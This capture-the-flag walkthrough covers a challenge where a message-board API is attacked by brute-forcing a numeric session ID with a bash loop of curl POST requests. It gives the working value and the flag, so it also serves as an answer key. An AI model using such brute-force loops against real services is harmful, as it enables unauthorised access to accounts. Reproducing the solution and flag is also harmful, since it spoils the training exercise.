 # 🥊 Benjamin The Brute - L11 C06

Agent 707, one of the gang, Benjamin Goldleaf, was yesterday overheard by our inside undercover agent talking about posting notices on a secret message board that the gang use to communicate meeting times.

With a bit of detective work we've managed to find the message board and get Bens user details. We want to post a fake message using the API to try and draw one of the more senior gang members out, but we can't get it to work. See if you can.

**Tip:** Successfully post a notice on the board to get the flag.

```txt
💡 Hint: There seems to be a required parameter - "sessID" - requiring a number. There aren't too many users,
   maybe try brute forcing this value. You could do that in Python or you could write a BASH script using CURL.
```

## Step by Step

- Open a Linux terminal
- Run `for i in {1..100}; do curl -X POST -d "userID=24&sessID=$i" https://bondogge.com/createPost; echo ""; done`
- This will eventually reach to correct sessID of `78` and spit out the flag

`flag: br1ti5h.bulld0gZ`
